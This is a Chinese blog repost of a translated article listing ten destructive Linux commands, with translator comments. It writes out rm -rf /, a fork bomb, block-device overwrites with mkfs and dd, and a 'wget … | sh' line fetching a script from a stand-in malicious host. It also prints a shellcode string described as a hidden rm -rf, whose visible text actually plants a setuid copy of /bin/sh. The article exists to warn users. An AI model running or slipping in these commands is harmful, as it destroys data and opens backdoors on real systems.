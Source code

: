 --- layout: post title: "永远不要在 Linux 执行的 10 个最危险的命令"
date: '2013-12-09T12:06:00.000+08:00' author: Wenh Q tags: - tech
modified\_time: '2013-12-09T12:06:38.271+08:00' blogger\_id:
tag:blogger.com,1999:blog-4961947611491238191.post-5272589394057621915
blogger\_orig\_url: http://binaryware.blogspot.com/2013/12/linux-10.html
---
<div style="margin: 10px; padding: 5px;">

<div style="font-size: 18px;">

[永远不要在 Linux 执行的 10
个最危险的命令](http://www.oschina.net/news/46657/10-most-dangerous-commands-you-should-never-execute-on-linux)

</div>

<div style="font-size: 13px;">

Via [开源中国社区最新新闻](http://www.oschina.net/?from=rss)

</div>

</div>

<div style="font-size: 13px; padding: 15px 0 10px 10px;">

Linux命令行佷有用、很高效，也很有趣，但有时候也很危险，尤其是在你不确定你自己在正
在做什么时候。这篇文章并不打算引来你对Linux或linux
命令行的愤怒。我们只是想让你意识到在你运行某些命令时应该三思而后行。（译注：当然，以下命令通常都是在root权限下才能将愚蠢发挥到无可救药；在普
通用户身份下，破坏的只是自己的一亩三分地。）\
![100744lmgomq4g44wwv7mm.jpg](http://static.oschina.net/uploads/img/201312/08063106_Sreu.jpg)\
1. rm -rf 命令\
rm
-rf命令是删除文件夹及其内容最快的方式之一。仅仅一丁点的敲错或无知都可能导致不可恢复的系统崩坏。下列是一些rm
命令的选项。\
-   rm　命令在Linux下通常用来删除文件。\
-   rm -r
    命令递归的删除文件夹，甚至是空的文件夹。（译注：个人认为此处应该是说错了，从常识看，应该是"甚至是非空的文件夹"）\
-   rm -f
    命令能不经过询问直接删除'只读文件'。（译注：Linux下删除文件并不在乎该文件是否是只读的，而只是在意其父目录是否有写权限。所以，-f这个参数
    只是表示不必一个个删除确认，而是一律悄悄删除。另外，原始的rm命令其实也是没有删除提示的，只是一般的发行版都会将rm通过别名的方式增加-i参数来
    要求删除确认，而-f则抑制了这个提示。）\
-   rm -rf / :
    强制删除根目录下所有东东。（就是说删除完毕后，什么也没有了。。。）\
-   rm -rf \*:　强制删除当前目录的所有文件。\
-   rm -rf . : 强制删除当前文件夹及其子文件夹。\

从 现在起，当你要执行rm
-rf命令时请留心一点。我们可以在".bashrc"文件对'rm'命令创建rm
-i的别名，来预防用
'rm'命令删除文件时的事故，它会要求你确认每一个删除请求。（译注：大多数发行版已经这样做了，如果还没有，请这样做，并在使用-f参数前一定考虑好
你在做什么！译者本人有着血泪的教训啊。）\
2. :(){:|:&};: 命令\
这就是个fork 炸弹的实例。具体操作是通过定义一个名为
':'的函数，它会调用自己两次，一次在前台另一次运行在后台。它会反复的执行下去直到系统崩溃。\
:(){:|:&};:\
哦？你确认你要试试么？千万别在公司正式的[服务器]()上实验啊\~\~\
3. 命令　&gt; /dev/sda\
上列命令会将某个'命令'的输出写到块设备/dev/sda中。该操作会将在块设备中的所有数据块替换为命令写入的原始数据，从而导致整个块设备的数据丢失。\
4. mv 文件夹 /dev/null\
这 个命令会移动某个'文件夹'到/dev/null。在Linux中 /dev/null 或 null
设备是一个特殊的文件，所有写入它的数据都会被清除，然后返回写操作成功。（译注：这就是黑洞啊。当然，要说明的是，通过将文件夹移动到黑洞，并不能阻止
数据恢复软件的救赎，所以，真正的彻底毁灭，需要采用专用的软件或者手法来完成——我知道你肯定有些东西想删除得干干净净的。）\
\# mv /home/user/\* /dev/null\
上列命令会将User目录所有内容移动到/dev/null，这意味着所有东西都被'卷入'黑洞　(null)之中。\
5. wget http://malicious\_source -O- | sh\
上列命令会从一个（也许是）恶意源下载一个脚本并执行。Wget命令会下载这个脚本，而sh会（无条件的）执行下载下来的脚本。\
注意:
你应该时刻注意你下载包或脚本的源。只能使用那些从可信任的源中下载脚本/程序。（译注：所以，你真的知道你在做什么吗？当遇到这种需要是，我的做法是，先wget下来，然后我去读一读其中到底写了些什么，然后考虑是否执行。）\
6. mkfs.ext3 /dev/sda\
上列命令会格式化块设备'sda'，你无疑知道在执行上列命令后你的块设备([硬盘]()驱
动器)会被格式化，崭新的!没有任何数据，直接让你的系统达到不可恢复的阶段。（译注：通常不会直接使用/dev/sda这样的设备，除非是作为raw设
备使用，一般都需要将sda分成类似sda1、sda2这样的分区后才使用。当然，无论你使用sda还是sda1，这样对块设备或分区进行mkfs都是毁
灭性的，上面的数据都会被蒸发了。）\
7. &gt; file\
上列命令常用来清空文件内容（译注：通常也用于记录命令输出。
不过请在执行前，确认输出的文件是空的或者还不存在，否则原来的文件可真是恢复不了了——连数据恢复软件都未必能帮助你了。另外，我想你可能真正想用的是
"&gt;&gt;"，即累加新的输出到文件，而不是刷新那个文件。）。如果用上列执行时输入错误或无知的输入类似
"&gt;xt.conf"　的命令会覆盖配置文件或其他任何的系统配置文件。\
8. \^foo\^bar\
这个命令在我们[十个鲜为人知的 Linux 命令 - Part
3](http://linux.cn/article-2284-1.html)中描述过，用来编辑先前运行的命令而无需重打整个命令。但当用foobar命令时如果你没有彻底检查改变原始命令的风险，这可能导致真正的麻烦。（译注：事实上，这种小技巧是译者认为的，少数史前时代遗留下来的无用而有害的"黑客"技巧。）\
9. dd if=/dev/random of=/dev/sda\
上列命令会向块设备sda写入随机的垃圾文件从而擦出数据。当然！你的系统可能陷入混乱和不可恢复的状态。（译注：记得上面说过mv到黑洞并不能彻底删除数据么？那么这个命令就是给了你一个彻底删除的方法！当然为了保险起见，你可以覆写多次。）\
10. 隐藏命令\
下面的命令其实就是上面第一个命令 (rm
-rf)。这里的代码是隐藏在十六进制里的,一个无知的用户可能就会被愚弄。在终端里运行下面命令可能会擦除你的根分区。\
这个命令表明通常真正的危险是隐藏的，不会被轻易的检测到。你必须时刻留心你在做什么结果会怎样。不要编译／运行从未知来源的代码。\
char esp\[\] \_\_attribute\_\_ ((section(".text"))) /\* e.s.prelease
\*/=
"\\xeb\\x3e\\x5b\\x31\\xc0\\x50\\x54\\x5a\\x83\\xec\\x64\\x68″"\\xff\\xff\\xff\\xff\\x68\\xdf\\xd0\\xdf\\xd9\\x68\\x8d\\x99″"\\xdf\\x81\\x68\\x8d\\x92\\xdf\\xd2\\x54\\x5e\\xf7\\x16\\xf7″"\\x56\\x04\\xf7\\x56\\x08\\xf7\\x56\\x0c\\x83\\xc4\\x74\\x56″"\\x8d\\x73\\x08\\x56\\x53\\x54\\x59\\xb0\\x0b\\xcd\\x80\\x31″"\\xc0\\x40\\xeb\\xf9\\xe8\\xbd\\xff\\xff\\xff\\x2f\\x62\\x69″"\\x6e\\x2f\\x73\\x68\\x00\\x2d\\x63\\x00″"cp
-p /bin/sh /tmp/.beyond; chmod 4755/tmp/.beyond;";\
注意:
不要在你的或你的同学或学校的[电脑]()里的Linux终端或Shell执行以上的任何一个命令。如果你想测试它们，请在虚拟机上运行。任何不和谐或数据丢失，由于运行上面的命令导致你的系统崩溃，文章作者和Tecmint概不负责。（译注：译者和转载网站也不负责\~！）\
今天就到此为止吧，我会很快回来这里，同时带上另一篇你们喜欢的文章。到那时请继续关注和访问Tecmint。如果你知道任何其他危险的Linux命令，也想添加到我们的列表中，请通过评论留言给我们同时也别忘了留下你的宝贵意见。\
via:
<http://www.tecmint.com/10-most-dangerous-commands-you-should-never-execute-on-linux/>\
译者：[Luoxcat](https://github.com/Luoxcat)
校对：[wxy](https://github.com/wxy)\
本文由 [LCTT](https://github.com/LCTT/TranslateProject)
原创翻译，[Linux中国](http://linux.cn/)

</div>
